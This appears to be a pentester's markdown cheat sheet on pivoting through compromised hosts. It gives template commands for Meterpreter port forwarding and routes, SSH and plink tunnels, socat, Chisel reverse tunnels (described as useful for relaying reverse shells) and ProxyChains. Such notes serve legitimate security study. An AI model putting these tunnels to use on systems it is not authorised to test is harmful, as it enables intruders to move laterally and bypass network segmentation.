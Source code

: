 ```yaml
---
layout: default
title: Pivoting
tags:
    - chisel
    - meterpreter
    - proxychains
    - ssh
    - tunneling
---
```

# Pivoting
## Metasploit
### Port forwarding
With meterpreter session on dual homed machine
```shell
portfwd add -l [LOCAL PORT] -p [TARGET PORT] -r [TARGET IP]  # Add port forwarding
```
- `-R` for reverse

```shell
portfwd delete -l [LOCAL PORT] -p [TARGET PORT] -r [TARGET IP]  # Delete specific forwarding
portfwd list                                                    # List
portfwd flush                                                   # Delete all forwardings
```

### Dynamic forwarding
With meterpreter session on dual homed machine
```shell
run autoroute -s [TARGET SUBNET]         # Adds route for [TARGET SUBNET]
run autoroute -p                         # Show active routes
route                                    # View accessible networks
route add 10.10.10.0 255.255.255.0 1     # Add route to 10.10.10.0/24 via session 1
route delete 10.10.10.0 255.255.255.0 1  # Delete specific route
route flush                              # Delete all routes
```

## SSH Tunneling
From within SSH session `~C` to access options, otherwise restructure as `ssh [TUNNELING COMMANDS] user@10.10.10.10`

### Local forwarding
```shell
-L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT]
```
- Forwards a local port to a remote `ip:port`

![local forwarding](../ssh-local.png)

![local forwarding](../ssh-local2.png)

### Remote forwarding
```shell
-R [REMOTE PORT]:[TARGET IP]:[TARGET PORT]
```
- Forwards a remote port to a `ip:port` reachable by you (may be `localhost`)

![remote forwarding](../ssh-remote.png)

![remote forwarding](../ssh-remote2.png)

### SSH from remote to local machine
If you don't have an SSH session, create an SSH session with your machine
- Create local user
```shell
useradd -M pentest  # no home directory
usermod -L pentest  # lock account
usermod -s /bin/false pentest  # set shell to /bin/false
service ssh start
```
- Open SSH session from remote host 
```shell
ssh -R [REMOTE PORT]:[TARGET IP]:[KALI PORT] pentest@10.10.10.10
```

## Plink (PuTTY Link)
Locally
```shell
service ssh start
```
- Transfer `/usr/share/windows-binaries/plink.exe` to target

Remotely
```shell
plink.exe [SSH IP] -P 22 -C -N -L [LOCAL PORT]:[TARGET IP]:[REMOTE PORT] -l user -pw pass   # Local
plink.exe [SSH IP] -P 22 -C -N -R [REMOTE PORT]:[TARGET IP]:[TARGET PORT] -l user -pw pass  # Remote
```

## SOCAT (Linux)
On dual-homed host
```shell
socat TCP4-LISTEN:[LOCAL PORT],fork TCP4:[TARGET IP]:[TARGET PORT]
```
- Forwards `[LOCAL PORT]` to `[TARGET IP]:[TARGET PORT]`

## Chisel
SSH, but reversed; you are the Chisel server and the remote host is the client

### Local Pivot
- Remote port (client) → local port (server)
- We are listening (we are the server)
- Useful for forwarding reverse shells from remote host to our machine

Run locally (server)
```shell
chisel server -p [LISTEN PORT]
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] [TUNNEL LISTEN PORT ON CLIENT]:[TUNNEL TARGET]:[TUNNEL PORT]
```

### Reverse Pivot
- Local port (server) → remote port (client)
- We are listening (we are the server)
- Useful for reaching machines through a remote host

Run locally (server)
```shell
chisel server -p [LISTEN PORT] -reverse
```

Run remotely (client)
```shell
chisel client [SERVER IP]:[SERVER PORT] R:[TUNNEL LISTEN PORT ON SERVER]:[TUNNEL TARGET]:[TUNNEL PORT]
```

## ProxyChains
Configure `/etc/proxychains.conf` to use a SOCKS5 proxy
```shell
socks5 127.0.0.1 1080
```
Run commands through proxychains
```shell
proxychains nmap -Pn -sT ...
```

## References
- <https://raw.githubusercontent.com/21y4d/Notes/master/Pivoting.txt>
- <https://www.bogotobogo.com/Linux/linux_Secure_Shell_SSH_V_ssh_Reverse_SSH_Tunnel_Remote_Port_Forwarding.php>
    - All credit for SSH tunelling diagrams goes here; they are simply too good to pass up
- <https://www.youtube.com/watch?v=Yp4oxoQIBAM>
- <https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/>